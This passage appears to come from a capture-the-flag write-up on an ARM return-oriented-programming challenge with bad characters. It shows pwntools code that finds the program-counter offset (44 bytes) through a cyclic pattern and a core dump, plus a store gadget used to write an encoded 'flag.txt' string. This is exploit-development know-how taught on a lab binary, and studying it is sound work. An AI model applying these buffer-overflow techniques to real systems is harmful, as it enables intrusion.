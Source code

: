 

## Controlling the PC register



To find out how many bytes we need in order to control the flow of execution we can use the following snipet:



```python
def find_pc_offset(payload, alpha):
   io = start()
   io.sendlineafter("> ", payload)
   io.wait() # wait for crash
   core = io.corefile
   pc_value = core.pc
   pc_offset = cyclic_find(pc_value, alphabet=alpha)


   info("Found PC offset at: %#x", pc_offset)
   return pc_offset


# badchars are: 'x', 'g', 'a', '.'
# python -c 'from pwn import *; print(enhex(b"xga."))' = 7867612e
alpha = 'bcde'
payload = cyclic(100, alphabet=alpha)
pc_offset = find_pc_offset(payload, alpha)

```



So after 44 (0x2c) bytes we can redirect the execution to our gadgets



## Building the gadget



First things first, we need to store our encoded string *somewhere* using the **STORE GADGET** listed bellow:

```assembly
 STORE GADGET:
   0x00010610 <+32>:    str    r3, [r4]
   0x00010614 <+36>:    pop    {r5, r6, pc}
```



The string *flag.txt* or rather *ek`f-sws* is 8 bytes long, where can we store this inside the target binary?



We can check out the ELF sections for the target:
